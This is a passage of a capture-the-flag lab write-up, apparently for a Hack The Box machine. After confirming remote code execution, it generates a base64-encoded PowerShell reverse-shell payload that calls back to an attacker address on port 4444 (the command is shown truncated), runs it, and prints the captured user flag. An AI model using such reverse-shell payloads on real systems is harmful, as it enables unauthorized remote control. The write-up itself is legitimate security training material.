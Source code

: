 ![](img/jab26.png)

BOOM! RCE is confirmed. It's time to get a shell.

A powershell payload is generated to obtain a reverse shell.

```shell
$ python3 mkpsrevshell.py 10.10.14.10 4444                                                                   
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwA[...]BpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

The powershell payload is executed as a remote command.

![](img/jab27.png)

![](img/jab28.png)

BLING BLING.

***user.txt***: 3d13d58a55072503d4c9441593246c35

![](img/jab29.png)

